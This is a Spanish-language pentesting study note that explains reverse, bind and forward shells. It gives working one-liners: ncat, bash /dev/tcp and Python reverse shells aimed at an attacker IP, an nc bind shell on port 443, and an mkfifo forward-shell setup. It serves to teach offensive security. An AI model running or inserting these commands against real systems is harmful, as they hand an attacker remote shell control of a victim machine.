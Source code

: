 -----------
- Tags: #explotación #basico #teoria
---

# Reverse Shell

Es una técnica que permite a un atacante conectarse a una máquina remota desde una máquina de su propiedad. Es decir, se establece una conexión desde la máquina comprometida hacia la máquina del atacante. Esto se logra ejecutando un programa malicioso o una instrucción específica en la máquina remota que establece la conexión de vuelta hacia la máquina del atacante, premitiéndole tomar el control de la máquina remota. 

En el ejemplo de la imagen, supongamos que la maquina victima tiene expuesto un puerto :80, con un servicio de apache2, el cual, es vulnerable a **RCE** (Remote Code Execution), una vez pudiendo ejecutar comandos como la maquina victima, al atacante le interesaria enviarse una consola interactiva por un puerto que el decida.

![[reverseShell.png|1000]]

Algunos oneliners típicos para lograr esto son:

- #### Haciendo uso de net cat:
```shell
ncat -e /bin/bash {IP_atacante} {puerto}
```

- #### Haciendo uso de bash:
```shell
bash -i >& /dev/tcp/{IP_atacante}/{puerto} 0>&1 
```

- #### Haciendo uso de python: 
```python 
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.38",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

#### Más oneliners [aca](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

---

# Bind Shell 

Esta técnica es el opuesto de la **Reverse Shell**, ya que en lugar de que la máquina comprometida se conecte a la máquina del atacante, es el atacante quien se conecta a la máquina comprometida. El atacante escucha en un puerto determinado y la máquina comprometida acepta la conexión entrante por ese puerto. El atacante luego tiene acceso por consola a la máquina comprometida, lo que le permite tomar el control de la misma. 

En este caso, en el ejemplo de la imagen, el atacante al explotar el **RCE**, inyecta un comando malicioso, en este ejemplo `nc -nlvp 443 -e /bin/bash` que lo que hace es escuchar en el puerto 443 por conexiones, y cuando reciba una, otorgara la consola interactiva.

![[BindShell.png|1000]]

-----------

# Forward Shell 

Esta técnica es utiliza cuando no se pueden estrablecer conexiones **Reverse** o **Bind** debido a reglas de Firewall implementadas en la red. Se logra mediante el uso de **mkfifo**, que crea un archivo **FIFO (named pipe)**, que se utiliza como una espcie de **consola simulada** interactiva a través de la cual el atacante puede operar en la máquina remota. En lugar de establecer una conexión directa, el atacante redirige el tráfico a través del archivo **FIFO**, lo que permite la comunicación bidireccional con la máquina remota.

## Ejemplo: 

#### Si ejecutaramos el sig comando...

```shell
mkfifo input; tail -f input | /bin/bash; 2>&1 > output 
```

#### ...veriamos que se creo un archivo **FIFO** llamado input y un archivo normal llamada output, la idea de esto es que ahora, haciendo uso de descriptores, podriamos redirigir las entradas a input y ver las salidas de estas en output.

```shell
echo "Este comando se va a alojar en output" > input 
cat output 
# ───────┬─────────────────────────────────────────────────
#        │ File: output
# ───────┼─────────────────────────────────────────────────
#    1   │ Este comando se va a alojar en output
# ───────┴─────────────────────────────────────────────────
```

 